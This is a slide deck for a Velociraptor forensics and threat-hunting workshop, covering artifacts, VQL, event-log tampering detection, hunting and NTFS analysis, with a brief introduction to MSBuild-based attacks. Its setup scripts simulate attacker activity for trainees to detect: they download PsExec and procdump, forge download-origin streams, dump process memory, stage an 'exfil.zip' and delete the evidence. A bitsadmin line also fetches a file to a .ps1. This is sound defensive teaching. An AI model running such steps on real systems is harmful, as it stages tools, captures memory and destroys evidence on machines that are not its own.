<!-- .slide: class="title" --> # Velociraptor: Digging Deeper… <div class="inset"> ## DFRWS APAC 2022 ### Mike Cohen, Digital Paleontologist </div> <img src="/resources/velo_bike.gif" class="fixed" style=" right: 0px; bottom: 0px; height: 300px; z-index: -10;"/> --- <!-- .slide: class="content" --> ## Overview There is no way we can cover all of the capabilities Velociraptor offers in the time today! * This workshop will give a taste to how modern threat hunting is done at scale * We will look at some of the common scenarios and attacks and some of the modern detection techniques we can employ to find these. * This workshop will be a "Follow Along" workshop - please try these exercises on your own machine! --- <!-- .slide: class="content" --> ## Prerequisites In order to follow along with this workshop you will need to use a windows VM with administrator level access. You can grab a free VM from Microsoft * Please ensure your VM has .NET version 4+ with MSBuild - dotNetFx40_Full_x86_x64.exe * You can also get the latest Velociraptor for Windows Binary from the GitHub releases page * https://github.com/Velocidex/velociraptor * Exercise setup scripts if preferred * https://gist.github.com/mgreen27/13174916ccfe5fc02b10be13705b2b58 --- <!-- .slide: class="content small-font" --> ## Additional tools * Memory injection test tool * https://github.com/Velocidex/injector/releases * SelectMyParent.exe * https://blog.didierstevens.com/2009/11/22/quickpost-selectmyparent-or-playing-with-the-windows-process-tree/ * Sysinternal tools * https://live.sysinternals.com/procdump64.exe * https://live.sysinternals.com/sdelete64.exe * https://live.sysinternals.com/psexec64.exe * NTFS Manipulation * https://github.com/jschicht/EaTools/raw/master/EaInject64.exe * https://github.com/jschicht/EaTools/raw/master/EaQuery64.exe * WEP Explorer * https://github.com/lallousx86/WinTools/tree/master/WEPExplorer * Process Hacker * https://processhacker.sourceforge.io/downloads.php
<!-- .slide: class="content" --> ## What is Velociraptor? * Velociraptor is a unique Free and Open Source DFIR tool, giving you power and flexibility through the Velociraptor Query Language * VQL is used to drive a powerful set of forensic capabilities: * Using VQL we can write custom "Artifacts" to identify emerging threats quickly and safely * Hunt for artifacts at scale over thousands of end points within minutes! --- <!-- .slide: class="full_screen_diagram" --> ## Deployment overview  --- <!-- .slide: class="content" --> ## Typical deployments * Support Linux, Windows, MacOS, FreeBSD … * Server simply collects the results of queries - clients do all the heavy lifting. * Client memory and CPU usage is controlled via throttling and active cancellations. * Server is optimized for speed and scalability * Concurrency control ensures stability * Bandwidth limits ensure network stability --- <!-- .slide: class="content" --> ## Typical deployments Current recommendations * 10k-15k clients - single server with file based data store (usually cloud VM). * SSL load is the biggest load - TLS offloading helps a lot! * 8 GB RAM/8 cores is generous towards the top of the range. * We recommend Ubuntu/Debian server * 15-20k to 150k endpoints we recommend a multi-frontend setup.
<!-- .slide: class="title" --> # Velociraptor Installation and GUI tour --- <!-- .slide: class="content" --> ## Create a local server * Create a local server on your windows system. * We will use this server's notebook feature to learn about windows artifacts * Run Velociraptor on your machine * Download Velociraptor from GitHub (.msi or .exe) ``` velociraptor-v0.72.3-windows-amd64.exe gui ``` --- <!-- .slide: class="full_screen_diagram" --> The "gui" command creates an instant temporary server/client with self signed SSL and a hard coded admin/password.  --- <!-- .slide: class="full_screen_diagram" --> ## Your Velociraptor is ready to use!  --- <!-- .slide: class="title" --> # A Velociraptor GUI tour --- <!-- .slide: class="content" --> ## The Dashboard * The Dashboard shows the current state of the installation: * How many clients are connected * Current CPU load and memory footprint on the server. * When running hunts or intensive processing, memory and CPU requirements will increase but not too much. * You can customize the dashboard - it’s also just an artifact. --- <!-- .slide: class="full_screen_diagram" --> ## The Dashboard  --- <!-- .slide: class="content" --> ## User Preferences You can customize the interface to your liking <div class="container small-font"> <div class="col"> * Themes </div> <div class="col"> * Languages * Timezones </div> </div> <img src="../../modules/gui_tour/user_preferences.png" style="bottom: inherit" class="" /> --- <!-- .slide: class="title" --> # Interactively investigate individual clients --- <!-- .slide: class="content small-font" --> ## Searching for a client To work with a specific client we need to search for it. Press the **Search** or **Show All** button to see some clients. You can also use the **Show recent hosts** to see your own clients.  --- <!-- .slide: class="content" --> ## Search for clients ### hostname, label, or client ID. * You can start typing the hostname to auto-complete * Some common terms: * `host`: search by hostnames * `mac`: Mac addresses * `ip`: last seen IP address * `label`: Search by labels --- <!-- .slide: class="content small-font" --> ## Client Overview * Internally the client id is considered the most accurate source of endpoint identity  --- <!-- .slide: class="content small-font" --> ## Shell commands * Velociraptor allows running shell commands on the endpoint using `Powershell`/`Cmd`/`Bash` * Only Velociraptor users with the administrator role are allowed to do this! * Actions are logged and audited ```powershell Get-LocalGroupMember -Group "Administrators" ```  --- <!-- .slide: class="title" --> # Interactively fetching files from the endpoint --- <!-- .slide: class="content small-font" --> ## The VFS View Remember that the VFS view is simply a server side cache of information we know about the endpoint - it is usually out of date!  --- <!-- .slide: class="content small-font" --> ## Navigating the interface * Click the “Refresh this directory” will schedule a directory listing artifact and wait for the results (usually very quick if the endpoint is online). * The “Recursively refresh this directory” will schedule a recursive refresh - this may take some time! After this operation a lot of the VFS will be pre-populated already. * “Collect from client” will retrieve the file data to the server. After which, the floppy disk sign indicates that we have file data available and you can click the “Download” link to get a copy of the file. --- <!-- .slide: class="content small-font" --> ## The VFS interface Previewing a file after download.  --- <!-- .slide: class="content small-font" --> ## Previewing files The GUI allows close inpection of binary files * Viewing in hex or text * Paging - skipping to offset * Searching using regex or hex strings 
<!-- .slide: class="title" --> # Velociraptor Artifacts ## Fast, Efficient, Surgical --- <!-- .slide: class="content small-font" --> ## Why a query language? * Able to dynamically adapt to changing requirements - without needing to rebuild clients or servers. * For example, a new IOC is released for detection of a specific threat * Immediately write a VQL artifact for the threat, upload the artifact and hunt everywhere for it. * Turn around from IOC to full hunt: A few minutes. * Share artifacts with the community * VQL Artifacts are simply YAML files with VQL queries. * Can be easily shared and cross pollinate other Artifacts * Can be customized by callers. * [Public Artifact Reference](https://docs.velociraptor.app/artifact_references/) --- <!-- .slide: class="content" --> ## What is VQL? ```sql SELECT X, Y, Z FROM plugin(arg=1) WHERE X = 1 ``` * `X, Y, Z` are called Column Selectors * `plugin(arg=1)` is termed a VQL Plugin with Args * `X = 1` is the Filter Condition --- <!-- .slide: class="content" --> ## Velociraptor artifacts Velociraptor is just a VQL engine! * We package VQL queries in Artifacts: * YAML files * Include human description * Package related VQL queries into “Sources” * Take parameters for customization * Can in turn be used in VQL as well... --- <!-- .slide: class="content" --> ## What does the VFS view do under the cover? * Refreshing the VFS simply schedules new artifacts to be collected - it is just a GUI convenience.  --- <!-- .slide: class="content" --> ## Velociraptor uses expert knowledge A key objective of Velociraptor is encapsulating DFIR knowledge into the platform, so you don’t need to be a DFIR expert. We have high level questions to answer We know where to look for evidence of user / system activities We build artifacts to collect and analyze the evidence in order to answer our investigative questions. --- <!-- .slide: class="full_screen_diagram" --> ## Anatomy of an artifact  --- <!-- .slide: class="content small-font" --> ## Collecting new artifacts To collect a new artifact, from the Collected Artifacts screen, click Collect new artifact and search for it. Select Add to add it to this collection. When finished, click Next.  --- <!-- .slide: class="content small-font" --> ## Configuring the artifact collection * Many artifacts take parameters that can control the way they work.  --- <!-- .slide: class="content small-font" --> ## Configuring collection resource limits There are many safety limits implemented into the client to control endpoint impact. <img src="../../modules/artifacts_introduction/configure_resources.png" class="mid-height"> --- <!-- .slide: class="content small-font" --> ## What do artifacts return? * All artifacts produce rows since they are just queries. * Some artifacts also upload files. You can create a download zip to export all the uploaded files.  --- <!-- .slide: class="content small-font" --> ## Uploaded files * The uploads tab shows the file's location on the server. * You can download or preview each one individually.  --- <!-- .slide: class="content small-font" --> ## Artifact query logs * As the query is running on the endpoint any log messages are sent to the server. * Click the log tab to see if there were any errors and how many rows are expected.  --- <!-- .slide: class="content small-font" --> ## Artifacts return multiple tables (sources) * `Source Selector`: Viewing the result tab shows the rows sent from every artifact and source.  --- <!-- .slide: class="content small-font" --> ## Exporting artifact collections * Use the GUI to create a zip export of the collection * Set a password in user preferences to export an encrypted Zip File 
<!-- .slide: class="content" --> ## VQL - Velociraptor's magic sauce Rather than having specific analysis modules, VQL allows generic capabilities to be combined in novel creative ways * NTFS/MFT/USN/Glob file system analysis * File parsers - Grok, Sqlite etc * Built in powerful parser framework for novel binary parsers --- <!-- .slide: class="content" --> ## Velociraptor Artifacts Velociraptor comes with a large number of artifact types * Client Artifacts run on the endpoint * Client Event artifacts monitor the endpoint * Server Artifacts run on the server * Server Event artifacts monitor for events on the server. --- <!-- .slide: class="content" --> ## Velociraptor Query Language Using a query language we can string together different forensic capabilities to create novel analysis The Power of Open source! The [Velociraptor artifact exchange](https://docs.velociraptor.app/exchange/) is a place for the community to publish useful VQL artifacts for reuse --- <!-- .slide: class="full_screen_diagram" --> ## The Artifact Exchange  --- <!-- .slide: class="full_screen_diagram" --> ## Automatically import Exchange  <!-- .slide: class="title" --> # Searching for files ## Let's start at the beginning…. --- <!-- .slide: class="content small-font" --> ## Manually importing artifact packs You can manually upload an artifact pack as well (A zip file containing artifact definitions).  --- <!-- .slide: class="content" --> ## Finding files DFIR is often about finding files on the endpoint * Filename is sometimes an indicator * Word documents in a temp folder may contain macros * Sometimes we need to filter by file content * File has signature of malicious macro/script --- <!-- .slide: class="content" --> ## Windows.Search.FileFinder <div class="container"> <div class="col"> * Glob based * Time filters * Yara for Content </div> <div class="col">  </div> </div> --- <!-- .slide: class="content" --> ## Exercise Find all executables in the user's home directory
<!-- .slide: class="title" --> # Querying the registry ## Detecting event log modifications --- <!-- .slide: class="content" --> ## The Windows Registry * Windows uses the registry to store configuration data. * Many attackers modify system configuration to achieve persistence * It is very useful to be able to query the registry! * Velociraptor has two types of registry accessors: * "registry" uses the APIs * "raw_reg" parses the registry hives themselves --- <!-- .slide: class="content" --> ## Example: Disable event logs * Windows event logs are crucial for detection * Many detection solutions rely on forwarding event logs to a backend * It is trivial to enable/disable event log collection * Let's look at disabling the BITS client events --- <!-- .slide: class="full_screen_diagram" --> ## What is BITS? Why should we care?  --- <!-- .slide: class="content" --> ## What is BITS? <div class="container"> <div class="col"> BITS activity is visible in the logs ```text bitsadmin.exe /transfer /download /priority foreground https://www.google.com c:\Users\test\test.ps1 ``` </div> <div class="col"> <img src="bits-log.png" style="width: 50%" class="title-inset"> </div> </div> --- <!-- .slide: class="full_screen_diagram" --> ## Disable event logs  Note: It is easy to disable log collections - from the GUI or programmatically Try this yourself - disable the Bits-Client logs, clear the logs and repeat the previous step --- <!-- .slide: class="content" --> ## Query the registry for event log config * Disabling the event logs actually results in a configuration change in the registry. * The relevant keys are discussed in [Disabled Event Log Files](https://docs.velociraptor.app/blog/2021/2021-01-29-disabled-event-log-files-a3529a08adbe/) * We can use `Windows.EventLogs.Modifications` to query log state --- <!-- .slide: class="content" --> ## We can get a snapshot of all event logs  --- <!-- .slide: class="content" --> ## Being more targeted in collection <div class="container"> <div class="col"> * Most artifacts have parameters that allow us to be more targeted in collection * Being targeted is good because it reduces the amount of data we collect! </div> <div class="col">  </div> </div> --- <!-- .slide: class="content" --> ## More targeted in collection * Treat the endpoint as the ultimate source of truth - need more data? go back and re-fetch it from the endpoint.  --- <!-- .slide: class="content small-font" --> ## Post processing with notebooks * Another alternative is to collect all the data and then post-process using the GUI * Helps us drill into the data and understand what is going on.  --- <!-- .slide: class="title" --> # Hunting at scale --- <!-- .slide: class="content" --> ## Hunting - mass collections Hunting is Velociraptor's strength - collect the same artifact from thousands of endpoints in minutes! * Two types of hunts: * Detection hunts are very targeted aimed at yes/no answer * Collection hunts collect a lot more data and can be used to build a baseline. --- <!-- .slide: class="content" --> ## Exercise - baseline event logs For this exercise we start a few more clients. ```text c:\Users\test>cd c:\Users\test\AppData\Local\Temp\ c:\Users\test\AppData\Local\Temp>Velociraptor.exe --config client.config.yaml pool_client --number 100 ``` This starts 100 virtual clients so we can hunt them * We use pool clients to simulate load on the server --- <!-- .slide: class="full_screen_diagram" --> ## Pool clients Simply multiple instances of the same client  --- <!-- .slide: class="full_screen_diagram" --> ## Create a hunt  --- <!-- .slide: class="full_screen_diagram" --> ## Select hunt artifacts  --- <!-- .slide: class="full_screen_diagram" --> ## Collect results  --- <!-- .slide: class="content" --> ## Exercise - Stacking * The previous collection may be considered the baseline * For this exercise we want to create a few different clients. * Stop the pool client * Disable a log channel * Start the pool client with an additional number of clients ``` Velociraptor.exe --config client.config.yaml pool_client --number 110 ``` --- <!-- .slide: class="full_screen_diagram" --> ## Stacking can reveal results that stand out 
<!-- .slide: class="content" --> ## NTFS Overview * NTFS is the file system in all modern Windows operating systems. * Feature packed with a design focused on storage optimization and resilience. * NTFS implements Journalling to record metadata changes to track state and integrity of the file system. * Allows for recovery after system crashes to avoid data loss * File System objects referenced in a Master File Table (MFT) --- <!-- .slide: class="content" --> ## New Technology File System * In NTFS, the Master File Table (MFT) is at the heart of the file system. A structured database that stores metadata entries for every file and folder. * Every object gets an entry within the MFT. Each entry is usually 1024 bytes long. Contains a series of attributes that fully describe the object. --- <!-- .slide: class="content" --> ## MFT entries contain attributes <div class="container small-font"> <div class="col"> ## File entry examples * $STANDARD_INFORMATION * $FILE_NAME (Windows long name) * $FILE_NAME (short name) * $DATA * $DATA (alternate data stream sometimes) </div> <div class="col"> ## Folder entry examples * $STANDARD_INFORMATION * $FILE_NAME (Windows long name) * $FILE_NAME (short name) * $INDEX_ROOT * $INDEX_ALLOCATION (sometimes) </div> --- <!-- .slide: class="content small-font" --> ## NTFS Analysis Velociraptor offers a number of plugins to access detailed information about NTFS: * `parse_mft()`: parses each MFT entry and returns high level metadata about the entry - including reconstruct the full path of the entry by traversing parent MFT entries. * `parse_ntfs()`: Given an MFT ID this function will display information about the various streams (e.g. `$DATA`, `$Filename` etc) * `parse_ntfs_i30()`: This scans the `$i30` stream in directories to recover potentially deleted entries. --- <!-- .slide: class="content small-font" --> ## Finding suspicious files Parse the MFT using `Windows.NTFS.MFT` * Common DFIR use case is finding files * File name * Path * File type * Content * Velociraptor plugins * glob * parse_mft * yara * other content based plugins <img src="../../modules/ntfs_forensics/MFT_artifact.png" style="bottom: 0px" class="inset" /> --- <!-- .slide: class="content" --> ## Windows.Forensics. FilenameSearch * Apply yara on the MFT * fast yara * simple string based * filename / top level folder only * comma separated * Crude and less control * Verbose results <img src="../../modules/ntfs_forensics/Windows.Forensics.FilenameSearch.png" style="bottom: 0px" class="inset" /> --- <!-- .slide: class="content" --> ## Windows.NTFS.MFT <div class="container small-font"> <div class="col"> * Parses MFT * Easy to use * Filters * Path * File name * Drive * Time bounds * Size * Performance optimised </div> <div class="col">  </div> </div> --- <!-- .slide: class="content" --> ## Exercise - Generate test data To automatically prep your machine run this script: ```powershell ### NTFS exercise setup ## 1. download some files to test various content and add ADS to simulate manual download from a browser $downloads = ( "https://live.sysinternals.com/PsExec64.exe", "https://live.sysinternals.com/procdump64.exe", "https://live.sysinternals.com/sdelete64.exe" ) foreach ( $url in $downloads){ "Downloading " + $Url $file = Split-Path $Url -Leaf $dest = "C:\PerfLogs\" +$file $ads = "[ZoneTransfer]`r`nZoneId=3`r`nReferrerUrl=https://18.220.58.123/yolo/`r`nHostUrl=https://18.220.58.123/yolo/" + $file + "`r`n" Remove-Item -Path $dest -force -ErrorAction SilentlyContinue Invoke-WebRequest -Uri $Url -OutFile $dest -UseBasicParsing Set-Content -Path $dest":Zone.Identifier" $ads } ``` --- <!-- .slide: class="content" --> ## More setup ```powershell ## 2.Create a PS1 file in staging folder (any text will do but this is powershell extension) echo "Write-Host ‘this is totally a resident file’" > C:\Perflogs\test.ps1 ## 3.Modify shortname on a file fsutil file setshortname C:\PerfLogs\psexec64.exe fake.exe ## 4. Create a process dumpOpen calculator (calc.exe) calc.exe ; start-sleep 2 C:\PerfLogs\procdump64.exe -accepteula -ma win32calc C:\PerfLogs\calc.dmp get-process | where-object { $_.Name -like "*win32calc*" } | Stop-Process ## 5. Create a zip file in staging folder Compress-Archive -Path C:\PerfLogs\* -DestinationPath C:\PerfLogs\exfil.zip -CompressionLevel Fastest ## 6. Delete dmp,zip and ps1 files - deleted file discovery is important for later! Remove-Item -Path C:\PerfLogs\*.zip, C:\PerfLogs\*.dmp, C:\PerfLogs\*.ps1 ``` Note: * Download and copy to staging folder C:\PerfLogs\ * https://live.sysinternals.com/procdump64.exe * https://live.sysinternals.com/sdelete64.exe * https://live.sysinternals.com/psexec64.exe * Add ADS to simulate Mark of the Web Create a PS1 file in staging folder (any text will do but this is powershell extension) ``` echo "Write-Host ‘this is totally a resident file’" > C:\Perflogs\test.ps1 ``` Modify short name on a file ``` fsutil file setshortname C:\PerfLogs\psexec64.exe fake.exe ``` Create a process dump Open calculator (`calc.exe`) ``` C:\PerfLogs\procdump64.exe -accepteula -ma calc C:\PerfLogs\calc.dmp ``` Create a zip file in staging folder - open `C:\Perflogs in Explorer` highlight and select: Send to > Compressed (zipped) folder. Delete `dmp.zip` and `ps1` files - deleted file discovery is important for later! ``` Remove-Item -Path C:\PerfLogs\*.zip, C:\PerfLogs\*.dmp, C:\PerfLogs\*.ps1 ``` --- <!-- .slide: class="content" --> ## Exercise <div class="container small-font"> <div class="col"> * Find contents of `C:\Perflogs` * Review metadata of objects * Explore leveraging filters * to target specific files or file types * to find files limited to a time frame * Can you find the deleted files? * You may get lucky and have an unallocated file show. * Try `Windows.Forensics.Usn` with filters looking for suspicious extensions in our staging location! </div> <div class="col"> <img src="../../modules/ntfs_forensics/MFT_exercise1.png" style="bottom: inherit" class="inset" /> </div> </div> --- <!-- .slide: class="content small-font" --> ## The USN journal * Update Sequence Number Journal or Change journal is maintained by NTFS to record filesystem changes. * Records metadata about filesystem changes. * Resides in the path $Extend\$UsnJrnl:$J  --- <!-- .slide: class="content" --> ## USN Journal * Records are appended to the file at the end * The file is sparse - periodically NTFS will remove the range at the start of the file to make it sparse * Therefore the file will report a huge size but will actually only take about 30-40mb on disk. * When collecting the journal file, Velociraptor will collect the sparse file. --- <!-- .slide: class="content" --> ## Exercise - Windows.Forensics.Usn <div class="container small-font"> <div class="col"> Target `C:\PerfLogs` with the `PathRegex` field. * typically the USN journal only records filename and MFTId and ParentMFTId record. Velociraptor automatically reconstructs the expected path so the user can filter on path. * This artifact uses FullPath results with “/”. </div> <div class="col">  </div> </div> --- <!-- .slide: class="full_screen_diagram" --> ## Exercise - UsnJ solution * There are many entries even for a simple file action like download to disk.  --- <!-- .slide: class="content" --> ## Exercise - UsnJ solution <div class="small-font"> * But these are simple to detect when you know what to look for! <div class="container"> <div class="col">  </div> <div class="col">  </div> </div> </div> --- <!-- .slide: class="content" --> ## Advanced NTFS: Alternate Data Stream <div class="container small-font"> <div class="col"> * Most browsers attach an ADS to files downloaded from the internet. * Use the VFS viewer to view the ADS of downloaded files. * Use ADS Hunter to discover more interesting ADS * Use `Windows.Analysis. EvidenceOfDownload` to identify downloaded files and unpacked ZIP files. </div> <div class="col"> <img src="../../modules/ntfs_forensics/ADS_grupby.png" style="bottom: inherit" class="inset" /> </div> </div> Note: The inset shows typical frequency analysis of ADS naturally occurring What is the `Wof` stuff? https://devblogs.microsoft.com/oldnewthing/20190618-00/?p=102597
<!-- .slide: class="title" --> # MSBuild based attacks --- <!-- .slide: class="content" --> ## Microsoft Build Engine <div class="small-font"> * T1127.001 - Trusted Developer Utilities Proxy Execution: MSBuild * https://attack.mitre.org/techniques/T1127/001/ * https://lolbas-project.github.io/lolbas/Binaries/Msbuild/ * .NET build feature used to load project files * C# or Visual Basic code to be inserted into an XML project file. * Lateral movement * WMI * Service Control Manager (SCM) * Also observed initial maldoc or persistance * Common attack framework availability * Metasploit module * Cobalt Strike aggressor script * Many other templates on github * This is essentially an applocker / whitelisting bypass. </div> Note: Adversaries may use MSBuild to proxy execution of code through a trusted Windows utility. MSBuild.exe (Microsoft Build Engine) is a software build platform used by Visual Studio. It handles XML formatted project files that define requirements for loading and building various platforms and configurations.[1] Adversaries can abuse MSBuild to proxy execution of malicious code. The inline task capability of MSBuild that was introduced in .NET version 4 allows for C# or Visual Basic code to be inserted into an XML project file.[1][2] MSBuild will compile and execute the inline task. 